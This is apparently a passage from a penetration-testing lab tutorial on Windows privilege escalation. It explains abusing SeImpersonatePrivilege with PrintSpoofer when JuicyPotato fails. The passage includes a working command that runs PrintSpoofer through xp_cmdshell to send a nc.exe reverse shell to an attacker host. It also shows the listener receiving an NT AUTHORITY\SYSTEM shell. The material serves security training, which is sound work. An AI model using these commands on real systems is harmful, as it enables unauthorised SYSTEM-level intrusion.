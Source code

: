 ***

## PrintSpoofer and RoguePotato

JuicyPotato doesn't work on Windows Server 2019 and Windows 10 build 1809 onwards. However, [PrintSpoofer](https://github.com/itm4n/PrintSpoofer) and [RoguePotato](https://github.com/antonioCoco/RoguePotato) can be used to leverage the same privileges and gain `NT AUTHORITY\SYSTEM` level access. This [blog post](https://itm4n.github.io/printspoofer-abusing-impersonate-privileges/) goes in-depth on the `PrintSpoofer` tool, which can be used to abuse impersonation privileges on Windows 10 and Server 2019 hosts where JuicyPotato no longer works.

### **Escalating Privileges using PrintSpoofer**

Let's try this out using the `PrintSpoofer` tool. We can use the tool to spawn a SYSTEM process in your current console and interact with it, spawn a SYSTEM process on a desktop (if logged on locally or via RDP), or catch a reverse shell - which we will do in our example. Again, connect with `mssqlclient.py` and use the tool with the `-c` argument to execute a command. Here, using `nc.exe` to spawn a reverse shell (with a Netcat listener waiting on our attack box on port 8443).

```shell-session
SQL> xp_cmdshell c:\tools\PrintSpoofer.exe -c "c:\tools\nc.exe 10.10.14.3 8443 -e cmd"

output                                                                             

--------------------------------------------------------------------------------   

[+] Found privilege: SeImpersonatePrivilege                                        

[+] Named pipe listening...                                                        

[+] CreateProcessAsUser() OK                                                       

NULL 
```

### **Catching Reverse Shell as SYSTEM**

If all goes according to plan, we will have a SYSTEM shell on our netcat listener.

```shell-session
$ nc -lnvp 8443

listening on [any] 8443 ...
connect to [10.10.14.3] from (UNKNOWN) [10.129.43.30] 49847
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.


C:\Windows\system32>whoami

whoami
nt authority\system
```

Escalating privileges by leveraging `SeImpersonate` is very common. It is essential to be familiar with the various methods available to us depending on the target host OS version and level.
